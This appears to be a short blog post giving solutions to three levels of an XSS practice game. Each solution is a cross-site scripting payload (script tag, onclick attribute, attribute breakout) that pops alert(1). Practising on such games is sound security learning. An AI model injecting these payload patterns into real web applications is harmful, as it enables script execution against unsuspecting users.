 ```yaml
---
layout: post
title: 'XSS Game'
permalink: /other/xss-game/
---
```


# Level 1
{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

# Level 2
{% highlight html %}
<img onclick="alert(1)">
{% endhighlight %}

# Level 3
{% highlight html %}
...' onclick="alert(1)" >
{% endhighlight %}

